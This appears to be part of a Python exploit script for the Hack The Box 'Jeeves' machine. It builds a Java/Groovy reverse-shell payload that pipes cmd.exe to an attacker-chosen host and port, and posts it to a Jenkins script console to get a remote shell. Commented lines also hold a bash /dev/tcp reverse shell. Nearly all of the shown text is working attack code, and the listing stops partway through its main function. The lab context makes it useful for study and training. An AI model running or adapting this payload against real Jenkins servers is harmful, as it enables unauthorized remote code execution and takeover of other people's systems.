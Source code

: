 ```python

# Define the payload to be included in the URL
def createPayload(lhost,lport):
    global payload

#   if target_system == "Windows":
    payload = '''String host="%s";
int port=%s;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();'''%(lhost,lport)

#   if target_system == "Linux":
#    payload = '''r = Runtime.getRuntime()
#p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%s/%s;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
#p.waitFor()''' %(lhost,lport)

#    r = Runtime.getRuntime()
#    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%s/%s;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
#    p.waitFor()""" %(lhost,lport),}

## Get the reverse shell
def getShell(rhost,rport,payload):
    print("[+] Let's get the reverse shell [+]")
    url = f"http://{rhost}:{rport}/askjeeves/script"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '851',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',}

#    data = {
#    "script": """
#    r = Runtime.getRuntime()
#    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%s/%s;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
#    p.waitFor()""" % (lhost,lport),}
    data = {
        'script': payload,
        'Jenkins-Crumb': '36267798ca3b6bfaf580958598da889c',
        'Submit' : 'Run',}

    ## If set proxy, add option "proxies=proxies"
    requests.post(url, headers=headers, data=data)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser(description='GetShell - Jeeves / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--rhost', help='Target IP address or hostname.', required=True)
    parser.add_argument('-p', '--rport', help='Port of the target machine.', type=int, required=True)
```